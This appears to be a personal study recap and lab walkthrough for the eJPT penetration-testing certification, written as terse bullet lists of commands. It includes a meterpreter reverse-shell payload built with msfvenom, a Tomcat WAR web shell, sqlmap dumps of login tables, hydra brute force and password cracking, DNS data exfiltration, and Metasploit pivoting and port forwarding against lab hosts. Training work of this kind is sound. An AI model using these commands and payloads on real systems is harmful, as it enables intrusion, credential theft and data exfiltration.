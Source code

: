 ## eJPT 🛠

Hey Hai, This is just a walkthrough and kinda recap of what in learnt during my INE prep course for Ejpt

### Inbuilt Labs
#### HTTPS Traffic Sniffing
- Once can actually sniff HTTP traffic only in clear using wireshark, we cant examine the HTTPS traffic
- Follow TCP Stream 
#### Find the Secret Server
- sudo ip  route add 192.168.222.0/24 via  10.175.34.1     [sudo ip route add ip/subnet via gateway]
- sudo ip route add 0.0.0.0/0 via 192.168.1.1
#### Data Exfiltration
- Configure the DNS server as attcker IP for Victim machine
- https://github.com/TryCatchHCF/PacketWhisper
- Open python server on attacker machine
- Download the zip on victim machine and run it
- We are good to exflitrate data ;)

#### Burp
- Inspect the website, from that we can able to discover robots.txt
- Using sniper from burp, check all the directories availibility
- Which reveals connections directory as 200, and ?debug is parameter that we came around robots.txt
- Playing around with parameter reveals it can only be set to true
- Set it to true, gives sensitive information back
- Fixing the In Scope
- Target > Site map tab > Spider this host
- Try to bypass the login, using intercept or any other means
- Intruder option and thier positions to attack

#### Scanning and OS Fingerprinting
- fping -a -g 10.142.111.0/24 2> /dev/null
- nmap -sn -n 10.142.111.*    [There is probably a host that does not respond to ICMP echo requests, but that has a service listening on the network.]
- nmap -sS 10.142.111.1,6,48,96,99,100,213  [SYN Scan on Alive Hosts]
#### Nessus
- Advanced Customized Scan
- DISCOVERY -> Host Discovery settings -> Use Fast Network Discovery
#### Dirbuster
- dirb http://172.16.64.140/project/ -u admin:admin 
- gobuster dir -t 50 --w /usr/share/wordlists/dirb/common.txt --url http://172.16.64.81/ -x /,php,txt,bak,old,html,xx
- ffuf -w /usr/share/wordlists/dirb/common.txt -u http://172.16.64.81/FUZZ
#### Sql Injections
- sqlmap -u http://10.124.211.96/newsdetails.php?id=1 --dbs --dump
- sqlmap -u http://10.124.211.96/newsdetails.php?id=1 -D admin --tables
- sqlmap -u http://10.124.211.96/newsdetails.php?id=1 -D admin -T login --coloumns
- sqlmap -u http://10.124.211.96/newsdetails.php?id=1 -D admin -T login -C username,password,logintime
- Intercept the request using burp, save it to req.txt
- sqlmap -r req.txt -p title  -> focusing cookie based sessions and multi-parameter based queries
#### Brute Force
- hydra crackme.site http-post-form "/login.php:usr=^USER^&pwd=^PASS^:invalid Credentials" -L  /usr/share/username.lst -P /usr/share/pass.lst -f -V
- unshadow passwd shadow > hashestocrack
- john hashestocrack     ->password      (username)
- /etc/login.defs  -> to check hashin used for passwords
- hashcat -m 1800 -a 0 admin.hash /root/Desktop/wordlists/1000000-password-seclists.txt
### The Black Box Walkthrough's : Box 1

#### Machine 1
- fping -a -g network id with mask 2>/dev/null
- naabu -p - ip address
- sudo nmap -Pn -T4 --open -sS -sC -sV --min-rate=1000 --max-retries=3 -p- 172.16.64.140 -v  
- tomcat Enumeration http:ip:port/manager/html  ->   [tomcat:s3cret]
- Which helps you to upload a .war file and deploy it on the web-server [jsp web shell]
- https://github.com/BustedSec/webshell/blob/master/webshell.war
- This will lead to RCE, confirimg the base os is linux
- Creating a meterpreter payload and listen using metasploit
-  msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=172.16.64.10 LPORT=3211 -f elf > meter.elf
-  rename .elf to .war upload it, delpoy and this file can be relocated at /var/lib/tomcat8/webapps
-  mv /var/lib/tomcat8/webapps/meter.war /tmp/meter ls /tmp/meter chmod +x /tmp/meter
-  reverse shell at meterpreter listener

#### Machine 2
- sudo nmap -Pn -T4 --open -sS -sC -sV --min-rate=1000 --max-retries=3 -p- 172.16.64.140 -v  
- webserver on port 80
- dirb -u dirb http://172.16.64.140/  -> discovery a directory project, which requires uname and pass [rnadom pass admin:admin [correct]]
- dirb http://172.16.64.140/project/ -u admin:admin   [for further directory enum]
- revealed the flag path and DB credentials for next machine [fooadmin:fooadmin]
#### Machine 3
- Metasploit is ur bestie
- Search metasploit for sql version for scanners or exploits
- use auxiliary/scanner/mssql/mssql_login  [login check/bruteforce]
- use auxiliary/admin/mssql/mssql_enum     [enumeration]
- use exploit/windows/mssql/mssql_payload  [exploit]
- Gives us a meterpreter session

### The Black Box Walkthrough's : Remastered 1
#### Machine 1
- Enumeration reveals it's using V-CMS 1.0
- Search Metasploit, there will be an open exploit
- use exploit/linux/http/vcms_upload
- As mentioned it the question, the vcms server is connected to some other webserver on some other network

#### Machine 2
- cat /etc/hosts will reveal the other web server info/ or ifconfig will also gives info about the other network
- But, still we wont be able to ping the other network subnet
- run autoroute -s 192.69.228.0 -n 255.255.255.0 -> this adds route automatically to the meterprrter session
- route add 192.69.228.0 255.255.255.0 1  -> you can also use this where "1" is the meterpreter session id
- use auxiliary/scanner/portscan/tcp
- set PORTS 80, 8080, 445, 21, 22
- set RHOSTS 192.69.228.3-10
- exploit
- This will do a portscan on the remote network and reveals the open ports
- Then we need to portforward our local port to the remote port do a nmap scan
- portfwd add -l 1234 -p 21 -r 192.69.228.3  -> l [local port] p [parayvalla port] r [remote Ip]
- portfwd add -L [attacker machine IP] -l listening_port -p 80 -r [victim machine IP]
- nmap -sS -sV -p 1234 localhost
- This reveals a ftp service and version, using metasploit, we can find a inbuilt exploit, then boo tada


















